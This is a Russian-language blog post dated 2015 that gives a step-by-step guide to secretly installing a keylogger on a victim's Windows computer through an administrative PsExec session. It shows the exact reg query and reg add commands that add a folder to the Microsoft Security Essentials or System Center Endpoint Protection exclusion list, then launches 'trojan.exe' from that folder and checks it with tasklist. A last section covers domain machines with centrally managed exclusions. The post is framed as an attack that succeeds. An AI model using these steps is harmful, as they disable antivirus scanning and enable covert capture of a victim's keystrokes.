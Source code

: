```yaml
---
title: "Удалённая установка кейлоггера на компьютер с Microsoft Security Essentials или System Center Endpoint Protection"
date: 2015-02-15
layout: default
---
```


**Дано:** Сессия PsExec (либо любая другая) с административными привилегиями на машине жертвы. У жертвы установлен Microsoft Security Essentials либо System Center Endpoint Protection.  
**Задача:** Незаметно для жертвы установить кейлоггер.  
  
Разберём неправильный и правильный способ решения данной задачи.  
  


###  **Неправильный способ**

**  
**

Для начала проверим, что произойдёт, если попробовать установить логгер "в лоб" без всяких ухищрений. Собираем бинарник, задаём в качестве рабочей директории что-нибудь неприметное, например  **c:\Windows\SysWOW64\WindowsPowerShell\**  
  
1\. Открываем сессию PsExec  
  
[![](/images/1.1.jpg)](/images/1.1.jpg)  
  


2\. Кидаем установщик логгера в директорию **c:\Windows\SysWOW64\WindowsPowerShell\**  и запускаем  
  
**c:\Windows\SysWOW64\WindowsPowerShell\trojan.exe**  
**  
**  


[![](/images/8.1.jpg)](/images/8.1.jpg)  


  


Ищем процесс кейлоггера

  


**tasklist /fi "IMAGENAME eq VME.exe"**

  


[![](/images/3.jpg)](/images/3.jpg)

  


  


  
  
  
Его нет. А почему? Да потому что, антивирус успешно отработал и радостно сообщил об этом жертве.

  


[![](/images/4.jpg)](/images/4.jpg)

  


  


[![](/images/5.jpg)](/images/5.jpg)

  


  
  
Операция провалена...

  


###  Правильный способ

  


Теперь пойдём другим путём и установим логгер в директорию, которая не будет проверятся антивирусом.  
  
Список исключений для Microsoft Security Essentials хранится в ключе реестра **HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths**  
  
1\. Для начала проверим его содержимое

  


**reg query "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths"**

  


[![](/images/6.jpg)](/images/6.jpg)

  


  


  
  
  
  
  
  
В данном случае список исключений пуст.  

  


2. Добавим в исключения директорию **c:\Windows\SysWOW64\WindowsPowerShell\**

  


**reg add "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths" /v c:\Windows\SysWOW64\WindowsPowerShell\ /d "1" /t REG_DWORD**

  


и проверим результат

  


**reg query "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths"**

  


  


[![](/images/7.1.jpg)](/images/7.1.jpg)

  
  
3\. Помещаем логгер в выбранный нами каталог и запускаем его

  


**c:\Windows\SysWOW64\WindowsPowerShell\trojan.exe**

  


[![](/images/8.1.jpg)](/images/8.1.jpg)

  


Проверяем результат:

  


**tasklist /fi "IMAGENAME eq VME.exe"**

  


[![](/images/9.jpg)](/images/9.jpg)

  


PROFIT! Логгер запущен, а антивирус жертвы ни о чём не подозревает

  


[![](/images/10.jpg)](/images/10.jpg)

  


  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  


### 

###    


###  Поправка на домен

  


В случае когда жертва является членом домена AD и вместо **Essentials** у неё установлен **System Center Endpoint Protection** , логика действий будет немного другой. Endpoint Protection, как и  Essentials хранит исключения в HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths, но их список, скорее всего, будет настроен централизованно через политики защиты. В этом случае наши изменения будут перезаписаны после повторного применения политики, поэтому у нас есть два варианта действий:  


  * Если список исключений задан (в реестре есть какие-либо записи) устанавливаем логгер в любой из перечисленных там каталогов;
  * Если список исключений не задан (записи в реестре отсутствуют) то политика исключений не настроена и мы можем смело вписывать туда нужный нам каталог.



В остальном порядок действий ничем не отличается. 
